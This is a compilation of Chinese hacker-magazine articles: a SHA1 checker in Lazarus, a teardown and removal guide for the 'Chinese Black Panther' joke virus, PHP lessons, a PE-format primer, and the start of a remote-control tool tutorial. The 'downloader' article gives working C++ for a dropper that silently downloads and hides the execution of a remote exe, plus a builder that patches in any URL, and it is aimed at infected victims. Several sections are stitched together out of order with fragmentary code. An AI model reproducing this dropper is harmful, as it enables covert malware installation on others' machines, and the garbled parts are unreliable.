    // 将结果转换为16进制，以方便阅读
    s := '';
    for i := 0 to 19 do
      s := s + IntToHex(DigestSHA1[i], 2);

    // 显示结果
    SHA1Edit.Text := s;
  end;
end;
```

```pascal
if CompareText(SHA1Edit.Text, CompareEdit.Text) <> 0 then
  MessageDlg('错误提示', '杯具! SHA1值不相同!', mtError, [mbOK], 0)
else
  MessageDlg('结果正确', '恭喜! SHA1值完全一致!', mtInformation, [mbYes], 0);
```

好了，程序中主要功能代码就是这样了，其它还有一些容错、界面相关代码等，我就不在这里详述了，大家可以去看源代码。

最后看一下编译出来的程序，看一下文件大小，啊啊，吃惊吧？这个小程序居然有 13MB！？不用惊奇，这是因为 Lazarus 默认会在程序中加入很多调试信息，我们去掉这些信息就可以了。

我们可以在 Lazarus 安装目录 `FPC\2.4.4\bin\i386-win32` 子目录中找到 `strip.exe`，将其拷贝到你的程序目录，然后打开 CMD 窗口，输入命令 `strip --strip-all HashSum.exe` 即可。如果还是感觉大，可以再用 `upx HashSum.exe` 进一步压缩，处理后文件可降到约 500KB。

比较值功能的实现只需要使用 `CompareText` 这个函数即可。如果结果相同函数就会返回 0。代码如上。

## DIY黑豹病毒伪装术

随风·落入夜

无意识地逛到了瑞星官网，发现了个中华黑豹病毒，据说很强大啊！如图1：

图1

面对这些图片。

图2

百度了下，大家都说作者是牛B。本地测试后发现跟牛B比差得还是有点远。

不解释，直接拖到虚拟机里面搞！首先 `Resource Hacker` 载入病毒样本。看 `Custom` 里面发现了些病毒相关图片如图2、3，等会我们运行后就会自动释放出来然后使劲地切换桌面。

从图4为改注册表删除默认的 Icons 图标！利用 WScript 执行 `1.bat` 如图5；图6：版本信息；作者真 TM 高潮啊 GYF 你名字吧？版本 9999.9999 坑爹呢？

2：在桌面上摆了一些文件，图标是黑色的豹子头！共计 100 余个！删除不掉，打不开。

我们继续用 PEID 查壳，升级版为 VB 增强版加壳了，跟我想象的一样，这东西估计就是一玩具，病毒功能用 VB 配合 Bat、Vbs 基本上很 easy！VB 不是俗称玩具么？升级版什么未加壳。增强版加了个未知壳如图7-8。

我们运行下这木马试下？呃……我们还是看图9和楼主的描述吧：

- 1：格式化全部磁盘
- 3：中毒的过程：可以听到一个豹子的叫声，一个男子在说话，声音相当大！开麦听听就知道！
- 4：中毒的过程：桌面不停地闪！5种颜色！写着：“中华黑豹病毒已经侵入！！！”字很大！吓人……
- 5：提示几个框框，关不完，声音频率貌似很好听！有错误、提示、警告等，差不多做成一首音乐了！！一个不停跳动的对话框，关不掉！写着：玉树地震的事情！看上去是位爱国者……顶！
- 6：任务管理器被禁用！
- 7：注册表被禁用！
- 8：光驱不停地弹出弹入……
- 9：全盘文件夹都变了样……等等……

其值设置为 0 则启用。（如图11：）

运行样本之后不久就会提示自动关机，关机之后再运行批处理进行格盘啊什么的；后面我会带大家一起分析。图10提示关机。我们只要在 开始->运行->cmd->`shutdown -a` 就可以取消关机了！常识啊！作者把大家都当大白菜了！

在运行样本前我就已经用 TinyFirewallPr 检测了。图12为程序的日志文件：

根据 TinyFirewallPr 的记录很轻松地就找到了病毒释放出来的包，位于 `c:\windows\system\chinaheibao` 目录下，现在我们来围观下里面的东西吧！如图13：

现在我们来看下当前的进程，由于任务管理器已经被禁用了，任务管理器恢复-->：打开注册表 `[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]` 分支，在左边找到 `DisableTaskMgr` 项（如没有则新建，其类型为 REG_DWORD），其值设置为 1 则禁止，设置为 0 则启用。

vbs、bat 大家都懂的，bat 加密了，我给解密出来了如图14：

非常清晰地展示了程序的执行流程，做了什么都在这些 bat 和 vbs 里面。格盘什么的重点在 `zhuyao.bat`（鄙视作者）。

用拼音，一般只有菜菜才喜欢这么搞的哦……所以不要觉得作者是什么大神之类，都是些很基本的东西，然后组合起来就成了你们所看到的病毒了。）里面，各种工具和样本以及解密后的文件都会打包发出来的！喜欢围观的朋友围观下吧！

现在需要做的是：开始->运行->msconfig->启动->禁止 `Qingchu.bat` 和那个没有名字的启动项，确定->退出不重启->注销；然后再登录就不会弹不会跳更不会叫了，如图15。

现在我们发现有很多的病毒*，没关系。删除了就行了！什么？删不鸟？下载个 unlocker 不就轻松搞定了？（PS：`zhuyao.bat` 建立了这些垃圾文件：`md "%systemdrive%\Documents and Settings\All Users\桌面\病毒100.."`）如图16：

图15

图16

然后把桌面换回来，把释放出来的文件手动删除了即可。来一张清理完后的高清无码无码图17：

图17

至此本文并未利用任何杀毒软件，已然捏死了貌似很强大的病毒；朋友们是否也准备玩一下呢？

## php实战攻略（1）

### ——初会（第一个php页面）

大家好，本文是《月下孤笔》专栏第二篇连载文章，主要从开发人员角度理解 php。了解程序员开发思路和流程，能帮助学习者更容易定位问题并提升学习效率。

废话不多说。当前动态网页开发常见语言包括 asp、asp.net、jsp、php 等。通常把 php/asp 视为服务器端脚本，把 javascript 视为客户端脚本；服务器端在服务器执行，客户端在用户电脑执行。

asp 因安全性问题已较少使用。随着 asp.net 与 php 多年更新，安全性提升明显。常见观点里，不同技术的入侵难度存在差异。

所谓 php 页面，用户访问时先在服务器执行 php 脚本，再返回处理后的 html 页面，因此浏览器“查看源代码”通常看不到 php 本体，只能看到 html、CSS、javascript。

学习建议：先掌握网页基础（html），最好有一点 C++ 基础，因为 php 语法与 C++ 有相似性。

开发环境可用 Zend Studio，运行环境可用 WampServer。两者安装较简单，重点注意 WampServer 的工作路径（www 目录），路径错误会导致访问不到文件。

WampServer 安装运行后，右下角会出现图标（图1），访问 `http://localhost`，若出现图2所示页面则表示安装成功。

php 脚本可嵌入 html 任意位置，使用 `<?php` 开始，`?>` 结束。接着在 Zend Studio 新建 PHP Project（如 HelloWorld），并在项目中创建 `index.php` 文件。

```php
<?php
echo "Hello World!!!";
?>
```

代码完成后，可按图3所示工具栏按钮运行，选择运行 php 页面方式并确认。

随后会在内置浏览器看到 `Hello World!!!` 的输出效果，如图4。

# 月下孤笔

我们首先来学习一下 PHP 中的输出。在 PHP 中，输出语句有三种方式：一种是像上面写的命令行风格输出，通过 `echo` 输出；第二种是 C 风格输出，通过 `printf` 输出；第三种是通过 `print` 输出。所以上面的 `echo "Hello World"` 这条代码的效果，也和以下两条代码作用相同：

```php
print "Hello World!!!";
printf("Hello World!!!");
```

在 PHP 中，通过输出语句输出的内容其实是变成了 HTML 代码返回给用户的浏览器，所以我们才能在浏览器中看到文字。那么如果我们现在想直接在网页上显示一个文本框，也很简单，把刚才的代码更改为如下代码：

```php
<?php
echo '<input type="text" />';
?>
```

这里因为篇幅原因，我就不贴图了，大家可以自行测试一下。输出介绍过了，我们就要继续来说一门语言中必不可少的部分了，这就是变量。PHP 是一门弱类型语言，变量不像 C++ 那样需要指定类型，在我们赋值的时候，PHP 会自动改变变量的类型。因此在 PHP 中变量的定义变得非常简单。以下代码就是一个定义变量并输出的小例子：

```php
<?php
$input='<input type="text" />';
echo $input;
?>
```

大家可以注意到，我们这里定义了一个变量 `input`，并且用 `echo` 进行了输出。PHP 中定义变量必须以 `$` 开头，后面写变量名。在 JavaScript 中，变量的类型是由第一次赋值来决定的，如果第一次赋值了一个整型，第二次再赋值一个其他不兼容的类型就会出错，但是 PHP 不同，刚才已经说过，PHP 会自动转换变量类型，所以下面的代码是没有任何错误的：

```php
<?php
$input=10;
echo $input;
echo "<br/>";
$input=10.5;
echo $input;
echo "<br/>";
$input="www.hackx.cc";
echo $input;
?>
```

上面代码先给 `input` 变量赋了一个整型数据，后面又给了一个浮点型数据，最后给了一个字符串数据，最终访问的效果没有报错，显示：

```text
10
10.5
www.hackx.cc
```

在上面的代码中，大家发现要输出回车比较麻烦，但是如果改成 `echo $input+"<br/>";` 的话又是有错误的，因为在第一次赋值的时候是给了一个整型，但是这里把一个整型数据和一个字符串相加，明显会让服务器无所适从。在 PHP 中，其实我们可以用 `.` 来连接多个要输出的内容，把代码更改为下面的，代码依然可以正常输出：

```php
<?php
$input=10;
echo $input."<br/>";
$input=10.5;
echo $input."<br/>";
$input="www.hackx.cc";
echo $input;
?>
```

同样，我们还可以通过 `printf()` 来格式化输出：

```php
<?php
$input=10;
printf("%d<br/>",$input);
$input=10.5;
printf("%f<br/>",$input);
$input="www.hackx.cc";
echo $input;
?>
```

除此之外，还有一种写法可以更加凸显 PHP 的灵活性，直接在要输出的地方写下变量名：

```php
<?php
$input=10;
echo "$input<br/>";
$input=10.5;
echo "$input<br/>";
$input="www.hackx.cc";
echo $input;
?>
```

由此可见，PHP 字符串的处理上显得非常灵活，我们可以根据个人喜好和习惯，自行选择输出方式。这里说到字符串的话，其实很多方法都可以定义，最常用的还是用双引号和单引号来标记字符串。这里也可以根据喜好走。

之所以用如此长的篇幅来说这些，是希望大家看完这篇连载以后对 PHP 有一些深刻的认识。我大部分技术都是自学，说不出条条款款，也不喜欢说那些东西，只能把我开发的一些经验给大家，希望能对大家有帮助。就到这里吧，希望大家能把回执认真填写反馈到编辑部，这样也能让我接收到大家的意见和建议。

# 浅谈下载者的简要实现

## 一、主体文件

对于下载者来说，其实主要功能很简单，就是一个下载文件并且隐藏运行的功能，但是其中也有那么几个难点。第一个就是生成器，要让生成的下载者记录下我们输入的网址；第二个就是我们生成的文件要尽可能小。至于免杀这些，那个就是看大家的免杀功力了。

先说说语言，C++、VB、Delphi 和易语言都是可以的，至于有的人学习的 C# 等等就不要考虑了。莫非还想让中招的人为了运行你的下载者还去下载个 .NET 平台吗？很多人都知道我喜欢玩 C++，这里我就用 C++ 来写吧。多的不赘述了，要尽可能小，肯定首选是 Win32 Application 项目，当然用 MFC 也可以，不过那个生成的文件就比较大了。

这里我们写一个简单点的下载者，里面只有几行代码。首先，在头文件引用处写下如下代码：

```cpp
#include <urlmon.h>
#pragma comment(lib, "urlmon.lib")
#include <shellapi.h>
```

这是对所需函数的头文件引用。然后我们要定义一个变量来存放我们的下载网址，可以定义一个全局变量：

```cpp
char url[128] = "http://localhost/test.exe";
```

注意这里一定要给一个初始值，等会方便我们找偏移。下面的 `tWinMain` 函数中，我们要做的就很简单了，因为有一个很方便的函数来让我们下载文件，这里我们直接写下这样的代码：

```cpp
loop:
HRESULT hr = URLDownloadToFileA(0, url, "D:\\Downwnloaded.exe", 0, NULL);
if (hr == S_OK) ShellExecuteA(0, "open", "D:\\Downwnloaded.exe", NULL, NULL, SW_HIDE);
else goto loop;
```

这些代码实际上大家应该都能看懂，意思是下载 `http://localhost/test.exe` 这个文件并另存到 D 盘的 `Downwnloaded.exe`。如果下载成功，则隐藏运行它；如果不成功则不断跳转到 `loop` 标签，再次尝试。好了，这样我们的小型下载者就完成了。现在我们把事先写好的 `test.exe` 放到我的网站发布目录下，让 `http://localhost/test.exe` 能访问到该文件。这个软件功能是弹出一个对话框，提示我们成功运行。然后再运行我们的下载者，弹出如下窗口，如图 1。


## 二、生成器

生成器的话其实也很简单，只是很多人不清楚原理。其实我们在程序中给变量 `url` 赋了一个字符串，那么在程序编译过后，我们的字符串是会存放在编译好的 exe 文件当中的；我们只要把生成器中的字符串替换为我们的网址，那么我们就可以动态设置已下载文件地址了。废话不多说，立刻新建一个 MFC 应用程序，这里没什么好说的，当然要新建基于对话框的应用程序。然后把控件拖到这个样子，如图 2。


双击取消按钮编辑单击事件，在里面写上：

```cpp
CDownloaderMakerDlg::OnCancel();
```

注意这里我的项目名称为 `DownloaderMaker`，项目名称不同时窗口类名会有不同。现在注意我们要把刚刚写好的下载者变成资源文件放入生成器中，在 VS2008 的资源视图中右键 -> 添加 -> 资源，选中我们刚刚生成的下载者，资源类型写上 `EXE`。

接下来我们就要开始对下载者进行修改。在软件运行的时候，我们可以把它读取到内存中，然后把下载地址替换掉，再重新写为 exe 文件。那么有了思路，应该如何来实现呢？通过函数我们可以找到加载到内存中的资源，但是如何找到网址所在的偏移呢？这就需要借助另外一个工具了，UltraEdit 这个文本编辑器可以很方便地让我们找到网址所在的偏移……例如 `http://localhost/test.exe` 的位置偏移量为 5656。

现在给我们窗体上的文本框关联一个 `CString` 类型的变量，取名为 `m_url`，然后双击生成按钮来编写我们的生成代码。我们要先加载资源，所以先调用 `FindResource` 找到资源，函数原型如下：

```cpp
HRSRC FindResource(HMODULE hModule, LPCSTR lpName, LPCSTR lpType);
```

这里第一个参数是模块句柄，这里用 `GetModuleHandle(NULL)`；第二个是资源名称，填写 `MAKEINTRESOURCE(IDR_EXE1)`；第三个是资源类型，填写 `"EXE"`。下面代码中嵌入了详细注释。

```cpp
UpdateData(TRUE);
// 从资源列表中查找资源
HRSRC hsrc=FindResource(GetModuleHandle(NULL), MAKEINTRESOURCE(IDR_EXE1), "EXE");
if(hsrc){
    HGLOBAL hg=LoadResource(GetModuleHandle(NULL), hsrc);
    if(hg){
        LPVOID pData=LockResource(hg);
        LPVOID pUrl=(LPVOID)((int)pData+5656);
        memcpy(pUrl, m_url.GetBuffer(0), m_url.GetLength());
        HANDLE file=CreateFile("D:\\downloader.exe", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, 0, NULL);
        WriteFile(file, pData, size, &size, NULL);
        CloseHandle(file);
    }
}
```

```cpp
pData=LockResource(hg);
/* 在这里获取资源大小其实不取也可以，因为我们知道资源文件是7680字节 */
DWORD size=SizeofResource(GetModuleHandle(NULL), hsrc);
/* 移动资源指针到网址所在内存 */
LPVOID pUrl=(LPVOID)((int)pData+5656);
memcpy(pUrl, m_url.GetBuffer(0), m_url.GetLength());
HANDLE file=CreateFile("D:\\downloader.exe", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, 0, NULL);
WriteFile(file, pData, size, &size, NULL);
CloseHandle(file);
```

现在我们再把我们的测试程序复制一份，命名为 `TestDownloader.exe`，然后复制到服务器工作目录下；运行生成器，在文本框中输入：`http://localhost/TestDownloader.exe`，运行后可以看到在 D 盘下已经生成了一个叫做 `downloader.exe` 的文件。


图3


图4

如图 3，双击运行，可以看到我们的测试文件已经下载下来并且弹出了提示对话框，如图 4。好了，我们的小小下载者就已经完成了，但是还是有 BUG：如果用户输入的网址比预定义网址短，可能会出现问题，这个是小事，大家可以自行解决。

# 小小地实现一个远控（一）

大家好，今天给大家发一下如何实现一个远控，主要通过 C++ 实现。C++ 基础的话我就不说了，基础不牢靠的，自己闭关学习一下吧！

好了，废话不多说，现在先做开发程序的准备。首先，客户端的话，我们采用 VC 里面的 MFC 来做；服务端的话，直接用 Win32 Application 开发。开发环境我这里选择的是 Visual Studio 2008。首先新建我们的客户端项目，选择 MFC 应用程序，项目名称选择为 `Client`（注意：这里的项目名称和后面生成的类名和文件名有关系），然后在 MFC 应用程序向导中，依次配置项目信息……

这里说一下各个参数的作用：

- `nCol` 是列的索引，控制列的顺序。
- `lpszColumnHeading` 是列头要显示的文字。
- `nFormat` 是列的对齐方式，取值有 `LVCFMT_LEFT`、`LVCFMT_RIGHT` 和 `LVCFMT_CENTER` 三种。
- `nWidth` 是列所占的宽度。
- `nSubItem` 是和列关联的子项索引。

这里我们写入以下几行代码来给列表添加列头：

```cpp
m_ServerListCtrl.InsertColumn(0, L"IP地址", LVCFMT_LEFT, 120, -1);
m_ServerListCtrl.InsertColumn(1, L"用户名", LVCFMT_LEFT, 70, -1);
m_ServerListCtrl.InsertColumn(2, L"计算机名称", LVCFMT_LEFT, 120, -1);
m_ServerListCtrl.InsertColumn(3, L"系统类型", LVCFMT_LEFT, 150, -1);
m_ServerListCtrl.InsertColumn(4, L"分组信息", LVCFMT_LEFT, 70, -1);
```

好了，客户端的项目我们就建立完成了。首先在主窗体上删除 VC++ 给我们添加好的三个控件，窗体现在完全由我们来设计。首先，客户端肯定要有一个列表视图控件来显示已经连接的服务端信息，所以从工具箱中拖入一个 `List Control` 控件，调整好大小，将控件 ID 更改为 `IDC_SERVERLIST`，这样可以方便我们以后更改代码和识别控件；在属性窗口中将 `View` 属性设置为 `Report`，这样我们就可以用它来显示我们的服务端信息……

```cpp
int InsertColumn(
    int nCol,
    LPCTSTR lpszColumnHeading,
    int nFormat,
    int nWidth = -1,
    int nSubItem = -1
);
```

添加后运行效果如图 1。


图1

现在我们的大体界面就做好了。现在构建网络架构，我们的远控肯定要涉及到收发数据，所以这里我们初始化一下套接字。我们同样在窗体初始化的方法中添加如下代码：

```cpp
WSADATA wsd;
if (WSAStartup(MAKEWORD(2,2), &wsd) != 0)
{
    MessageBox(L"初始化套接字失败", L"警告", 0);
}
```

上面代码大家只要知道 `MAKEWORD` 是套接字版本……初始化失败时，`WSAStartup` 是初始化函数，如果成功则返回 0；如果失败，则返回相应的错误码，出现错误则弹出消息框，提示初始化失败。

初始化之后，就可以定义套接字了。我们在 `CClientDlg` 类中添加一个 `Socket` 类型的成员变量，代码如下：

```cpp
SOCKET listenSocket;
```

PS：在 MFC 类库中，已经有封装好的类，不过那个类封装的东西太多，效率较低，这里还是采用效率比较高的 `socket` 结构来做。同样在窗体初始化函数中，初始化我们的监听套接字 `listenSocket`。标准的 `SOCKET` 结构要通过 `socket` 函数来初始化，函数原型如下：

```cpp
SOCKET WSAAPI socket(
    __in int af,
    __in int type,
    __in int protocol
);
```

参数解析：

- `af`：`SOCKET` 的地址族，这里我们填写 `AF_INET`。
- `type`：套接字类型，我们选用流式套接字，填写 `SOCK_STREAM`。
- `protocol`：协议类型，我们肯定是用的 TCP 协议，填写 `IPPROTO_TCP`。

初始化结构之后，我们还要将它设置为监听状态，所以又需要 `bind` 函数先进行绑定，函数原型：

```cpp
int bind(
    __in SOCKET s,
    __in const struct sockaddr* name,
    __in int namelen
);
```

第一个参数当然就是要绑定的结构，第二个参数是 IP 地址信息，第三个参数是地址的长度。`sockaddr` 这个结构需要我们自己定义并初始化，我们先不急，等会我们再看完整代码。

执行完绑定之后，接下来就是 `listen` 函数了。这个函数的参数非常简单，就是要监听的 `Socket` 结构和最大队列数。这里我就不列出函数原型了，如果还有不清楚的大家可以查阅 MSDN。

下面大家可以看看定义监听套接字的完整代码：

```cpp
listenSocket=socket(AF_INET,SOCK_STREAM,IPPROTO_TCP); // 创建SOCKET对象
```

```cpp
sockaddr_in sockaddr;

// 定义地址结构
sockaddr.sin_family = AF_INET;          // 设置地址结构的协议族
sockaddr.sin_addr.s_addr = inet_addr("127.0.0.1");   // 设置IP地址
sockaddr.sin_port = htons(9999);        // 设置监听端口

if(bind(listenSocket,(sockaddr*)&sockaddr,sizeof(sockaddr_in))!=0) {
    MessageBox("套接字绑定失败，请检查端口是否被占用！", "警告", MB_OK);
}
if(listen(listenSocket,10)!=0) {
    MessageBox("监听出现错误，服务端可能无法上线！", "警告", MB_OK);
}
```

大家注意到这里我们定义的是 `sockaddr_in` 结构，而且将结构体是 `sockaddr`，这里其实可以互相进行强制转换，不影响使用。看上面的代码很简单，下面的几个值分别为地址族、IP 地址和端口。

现在我们的准备工作就做好了，现在需要写一个成员来不停地接受服务端的连接请求，那么我们就要添加一个名为 `AcceptConnection` 的函数。但是因为不知道有多少客户端会连接，那么我们这里肯定需要写一个死循环，肯定不能在程序中直接调用这个包含死循环的函数，只能创建一个新的线程，否则的话程序就会没有响应，所以这个函数要写成系统回调函数。在 C++ 中，线程回调函数必须写成如下格式：

```cpp
DWORD WINAPI ThreadProc(
    [in] LPVOID lpParameter
);
```

其中函数名可以自定义。那么，接下来大家就看 `AcceptConnection` 的代码：

```cpp
DWORD WINAPI AcceptConnection(LPVOID pParam)
{
    CClientDlg *pMainForm=(CClientDlg*)pParam;
    while(true)
    {
        sockaddr_in temp;
        int addrlen=sizeof(sockaddr_in);
        int a=accept(pMainForm->listenSocket,(sockaddr*)&temp,&addrlen);
        a=WSAGetLastError();
    }
}
```

```c
a = a;
...
return;
```

好了，这次就到这里吧，刚刚开始会比较枯燥，但是这些都是必须要写的东西。代码的话，可能需要有些 VC 开发基础的人才能看懂，如果小菜们有不懂的也不用着急，毕竟大家都是从这个阶段慢慢过来的。我已经尽可能说得详细，源代码我会打包给大家的！

> （文中所涉及到的源代码本期光盘已收录）

## PE文件格式详解

大家好，本篇文章还是老生常谈，说说 PE 文件格式，网上还是有很多的相关资料，不过我这里还是说一下，希望月下孤笔能成为一个知识库一样的地方，能给大家提供一些很基础的知识和一些经验。为了方便大家理解，所以大部分地方都给了很详细的图，因为当初我学习这个的时候很累地一个一个字节地来校对，很累人。

当然，如果我讲的有什么不对的地方，欢迎大家指正。本文参考了 MSDN 的一些资料。源码则是来自 VS2010 的库文件。插图来自 WinHex 外加以前写的一个后门。

首先先解释一下什么是 PE 文件：Portable Executable，可移植执行体，就是说复制到另一台 Windows 系统的电脑上仍能正常执行的文件。

而这个 PE 文件之所以有这样的神通，很重要的一个因素就是它的文件格式……

| PE 文件结构 |
|---|
| MS-DOS |
| MZ 头部 |
| MS-DOS 实模式残余程序 |
| PE 文件标志 |
| PE 文件头 |
| PE 文件可选头部 |
| .text 段头部 |
| .bss 段头部 |
| .rdata 段头部 |
| …… |
| .debug 段头部 |
| .text 段 |
| .bss 段 |
| .rdata 段 |
| …… |
| .debug 段 |

图1


图2

原名 MS-DOS 头部。这个地方的主要用途是为了让操作系统检验兼容性的，携带着还有一些初始化寄存器之类的功能。它在 WinNT.h 中的定义如下：

```c
typedef struct _IMAGE_DOS_HEADER {
  WORD e_magic;    // 魔术数字，MZ
  WORD e_cblp;
  WORD e_cp;
  WORD e_crlc;
  WORD e_cparhdr;
  WORD e_minalloc;
  WORD e_maxalloc;
  WORD e_ss;
  WORD e_sp;
  WORD e_csum;
  WORD e_ip;
  WORD e_cs;
  WORD e_lfarlc;
  WORD e_ovno;
  ...
} IMAGE_DOS_HEADER;
```

```c
WORD e_res[4];
WORD e_oemid;
WORD e_oeminfo;
WORD e_res2[10];
LONG e_lfanew;
} IMAGE_DOS_HEADER, *PIMAGE_DOS_HEADER;
```

```c
#define IMAGE_DOS_SIGNATURE      0x5A4D // MZ
#define IMAGE_OS2_SIGNATURE      0x454E // NE
#define IMAGE_OS2_SIGNATURE_LE   0x454C // LE
#define IMAGE_VXD_SIGNATURE      0x454C // LE
#define IMAGE_NT_SIGNATURE       0x00004550 // PE00
```

其实在这一大串成员里面，只有两个是对 Windows NT 系统（指代所有 NT 内核的 Windows 系统）有用的，就是第一个和最后一个。剩下的传说都是在 MS-DOS 系统下才使用的。

可以看到，插图中的文件标志是 PE00，也就是 IMAGE_NT_SIGNATURE。

实模式残余程序（从 MZ 头部结束到 PE 文件标志，长度不定）

PE 文件头（从 PE 文件标志结束往后 20 字节）


别看名字这样奇怪，其实理解起来一点难度没有。事实上，实模式残余程序是一个被包含在大程序中的独立的小程序。实模式是指它的寻址方式，指这个程序寻址使用的是实模式（关于实模式和保护模式，欢迎大家自行百度）。在 Windows NT 系列下，这个家伙相当于一个小型的“Hello World”。当程序不被当前系统支持的时候，就跳到这个位置执行这段残余程序，输出一行报错的英文（比如在插图中，输出的就是“This program cannot be run in DOS mode”）。在 MS-DOS 环境下，应用程序则是从这里开始执行的。（这就是为什么说它是 MS-DOS 实模式残余程序）。

PE 文件头在 WinNT.h 中的定义如下：

```c
typedef struct _IMAGE_FILE_HEADER
{
    WORD  Machine;
    WORD  NumberOfSections;
    DWORD TimeDateStamp;
    DWORD PointerToSymbolTable;
    DWORD NumberOfSymbols;
    WORD  SizeOfOptionalHeader;
    WORD  Characteristics;
} IMAGE_FILE_HEADER, *PIMAGE_FILE_HEADER;
```

在 VC 编译器中，可以通过使用 -STUB: 链接器选项来指定另外的实模式残余程序。（不同的编译器可能会有不同的选项，参阅编译器的帮助文档可能对你有点帮助）。

PE 文件标志（从 e_lfanew 指向的地址往后 4 字节）。


它的作用是标识 PE 可执行文件适用的系统。它跟 MZ 头部里的魔术数字的区别就是：

- 1. 文件标志更详细一些。
- 2. MS-DOS 下的 PE 文件没有文件标志。

在 WinNT.h 中定义了四种文件标志，相信通过看宏名，就已经看明白它的意思了：

```c
#define IMAGE_DOS_SIGNATURE
```


这些玩意的作用已经写得很明白了。在这里 Machine 和 Characteristics 的取值非常多，我不打算浪费版面。有兴趣的读者可以在 WinNT.h 中找到 _IMAGE_FILE_HEADER 的定义，紧随其后的就是 Machine 和 Characteristics 的取值定义。

PE 文件可选头部（从 PE 文件头结束往后 224 字节，虽然是可选，不过根据罗云彬大哥的资料，这个是必要的）

虽然它说这个可以选，但是其实这个必须选……废话不多说，看定义：

```c
#define IMAGE_NUMBEROF_DIRECTORY_ENTRIES 16
typedef struct _IMAGE_OPTIONAL_HEADER {
    // Standard fields
    WORD    Magic;                      // 标志字（总是010Bh）
    BYTE    MajorLinkerVersion;         // 主链接器版本号
    BYTE    MinorLinkerVersion;         // 副链接器版本号
    DWORD   SizeOfCode;                 // 代码段长度
    DWORD   SizeOfInitializedData;      // 已初始化的数据长度
    DWORD   SizeOfUninitializedData;    // 未初始化的数据长度
    DWORD   AddressOfEntryPoint;        // 程序执行入口点RVA
    DWORD   BaseOfCode;                 // text段的起始处RVA
    DWORD   BaseOfData;                 // data段的起始处RVA

    // NT additional fields
    DWORD   ImageBase;                  // 程序默认装入的基址
    DWORD   SectionAlignment;           // 节在内存中的对齐粒度
    DWORD   FileAlignment;              // 文件中的对齐粒度
    WORD    MajorOperatingSystemVersion;
    WORD    MinorOperatingSystemVersion;
    WORD    MajorImageVersion;
    WORD    MinorImageVersion;
    WORD    MajorSubsystemVersion;
    WORD    MinorSubsystemVersion;
    DWORD   Win32VersionValue;
    DWORD   SizeOfImage;                // 映像在内存中的大小
    DWORD   SizeOfHeaders;              // 所有头部大小
    DWORD   CheckSum;                   // 校验和
    WORD    Subsystem;                  // 运行平台子系统
    WORD    DllCharacteristics;
    DWORD   SizeOfStackReserve;         // 初始栈保留大小
    DWORD   SizeOfStackCommit;          // 初始栈提交大小
    DWORD   SizeOfHeapReserve;          // 初始堆保留大小
    DWORD   SizeOfHeapCommit;           // 初始堆提交大小
    DWORD   LoaderFlags;
    DWORD   NumberOfRvaAndSizes;
    IMAGE_DATA_DIRECTORY DataDirectory[IMAGE_NUMBEROF_DIRECTORY_ENTRIES];
} IMAGE_OPTIONAL_HEADER32, *PIMAGE_OPTIONAL_HEADER32;

// 数据目录表
// 接下来给出数据目录表每个位置的含义
#define IMAGE_DIRECTORY_ENTRY_EXPORT ...
```

```c
// 导出目录
#define IMAGE_DIRECTORY_ENTRY_EXPORT         0
// 导入目录
#define IMAGE_DIRECTORY_ENTRY_IMPORT         1
// 资源目录
#define IMAGE_DIRECTORY_ENTRY_RESOURCE       2
// 异常目录
#define IMAGE_DIRECTORY_ENTRY_EXCEPTION      3
// 安全目录
#define IMAGE_DIRECTORY_ENTRY_SECURITY       4
// 重定位表
#define IMAGE_DIRECTORY_ENTRY_BASERELOC      5
// 调试目录
#define IMAGE_DIRECTORY_ENTRY_DEBUG          6
// (x86 usage)
#define IMAGE_DIRECTORY_ENTRY_COPYRIGHT      7
#define IMAGE_DIRECTORY_ENTRY_ARCHITECTURE   7
// 版权信息
#define IMAGE_DIRECTORY_ENTRY_GLOBALPTR      8
// RVA of GP
#define IMAGE_DIRECTORY_ENTRY_TLS            9
// TLS 目录
#define IMAGE_DIRECTORY_ENTRY_LOAD_CONFIG    10
// 载入配置目录
#define IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT   11
// Bound Import Directory in headers
#define IMAGE_DIRECTORY_ENTRY_IAT            12
// 导入函数地址表
#define IMAGE_DIRECTORY_ENTRY_DELAY_IMPORT   13
// Delay Load Import Descriptors
#define IMAGE_DIRECTORY_ENTRY_COM_DESCRIPTOR 14
// COM Runtime descriptor

typedef struct _IMAGE_DATA_DIRECTORY {
    DWORD VirtualAddress;
    DWORD Size;
} IMAGE_DATA_DIRECTORY, *PIMAGE_DATA_DIRECTORY;
```

`.debug` 段是由段头部和段实体组成的，段头部和段实体被分别组织在一起。各个段头部的次序不固定，由编译器“任意”组织，而段实体则是按段头部的次序组织。段头部有着比较严格的结构，而段实体的形式可以随意安排。

段头部（40 字节）

贴一下定义：

```c
#define IMAGE_SIZEOF_SHORT_NAME 8
typedef struct _IMAGE_SECTION_HEADER {
    BYTE Name[IMAGE_SIZEOF_SHORT_NAME];
    union {
        DWORD PhysicalAddress;
        DWORD VirtualSize;
    } Misc;
    DWORD VirtualAddress;
    DWORD SizeOfRawData;
    DWORD PointerToRawData;
    DWORD PointerToRelocations;
    DWORD PointerToLinenumbers;
    WORD  NumberOfRelocations;
    WORD  NumberOfLinenumbers;
    DWORD Characteristics;
} IMAGE_SECTION_HEADER, *PIMAGE_SECTION_HEADER;
```

可以看到，这个结构里有数据目录的 RVA 和长度。通过这个我们可以得到数据目录的内容，进而得到我们需要的数据。

段特征的定义很多，贴出来实在是浪费篇幅了，不过读者可以像之前一样从 WinNT.h 中找到它们的定义。

好了，不多说了，似乎图已经占了很多篇幅，就到这里吧！

## PE文件段（长度不定）

一个 PE 文件由各种头部和几个段组成，一般来讲 PE 程序有 9 个段，`text`、`bss`、`rdata`、`data`、`rsrc`、`edata`、`idata`、`pdata`。

## php基础教程（2）
—— 新人（了解基本语法）

彭月

## [1] 注释

大家好，在上个月，我们学习了基本的 php 输出。对于任何一门语言来说，还有一点是非常重要的，就是注释。注释可以帮助我们加深对代码的记忆和理解，为团队开发提供便利。php 的注释依然是很灵活，php 支持 3 种格式的注释。

- 1. 以 `//` 来标记的单行注释。
- 2. 以 `#` 来标记的单行注释。
- 3. 以 `/* */` 来标记的多行注释。

这里给大家说一下，大家平时也许看到人随便写写小程序，不写注释，可能感觉没什么用。但是在大型团队或者公司中，注释的要求是非常严格的。多人开发也多数依靠注释，所以大家尽可能养好写注释的习惯。

## [2] 数据类型

